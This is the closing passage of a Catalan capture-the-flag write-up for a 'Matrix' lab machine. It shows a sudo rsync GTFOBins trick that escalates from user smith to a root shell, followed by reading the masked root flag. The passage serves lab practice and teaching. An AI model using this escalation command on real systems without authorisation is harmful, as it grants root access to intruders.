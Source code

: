 Podem executar `rsync` com a usuari root. Gràcies a `gtfobins` trobem una forma d'escalar a root.

![alt text](../../../assets/images/matrix/image-17.png)

Ho executem i obtenim shell com a root, i llegim la flag.

```bash
smith@matrix:~$ sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) grups=0(root)
# whoami
root
# cat /root/root.txt
5XXXXXXXXXXXXXXXXXa
# 
```

Això és tot.

Espero que us hagi agradat, que hàgiu après alguna cosa o, com a mínim, que hàgiu passat una bona estona resolent el misteri d'entrar a "la ment" de Matrix. 😉
